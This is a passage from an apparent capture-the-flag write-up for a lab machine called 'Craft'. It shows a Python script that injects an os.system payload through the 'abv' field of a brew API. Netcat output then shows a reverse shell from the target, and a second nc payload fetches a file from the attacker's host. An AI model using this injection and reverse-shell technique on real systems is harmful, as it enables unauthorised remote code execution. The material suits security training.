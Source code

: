 ```python
# Set our headers.
headers = {
    'X-Craft-API-Token': r.json()['token'],
    'Content-Type': 'application/json'
}

# Check whether token is valid.
r = requests.get(base_url+'auth/check', headers=headers, verify=False)
assert r.json()['message'] == 'Token is valid!'

# Craft payload.
payload = {
    'name': 'ghuul',
    'brewer': 'ghuul',
    'style': 'ghuul'
}
payload['abv'] = '__import__("os").system("%s") or 10' % PAYLOAD

# Make request with payload.
payload = json.dumps(payload)
requests.post(base_url+'brew/', headers=headers, data=payload, verify=False)
```

Let's start up netcat on our end... and we have a shell.
```
$ nc -lv -p 4444
listening on [any] 4444 ...
connect to [10.10.xx.xx] from craft.htb [10.10.10.110] 45519
# ls
app.py
craft_api
dbtest.py
tests
```

## Part 3 - Getting User
So, a few things to note: we're logged in as root, but we can't `cat /root/root.txt`. In
conclusion, we are in a jail. Let's do some digging around on the server for now, there seem to be
a few interesting files.
```
# whoami
root
```

After a tiny bit of digging I ran into a file called `dbtest.py` (we ran into it earlier on the
git repo too), and it seems to connect and query the database successfully. So what happens if we
upload our own version that allows us to execute arbitrary queries? With a slight modification to
our foothold script we can upload a file to the server. 
```python
PAYLOAD = 'nc 10.10.xx.xx 4444 > database.py'
```
```
$ nc -lv -p 4444 < database.py
listening on [any] 4444 ...
connect to [10.10.xx.xx] from craft.htb [10.10.10.110] 4220
```
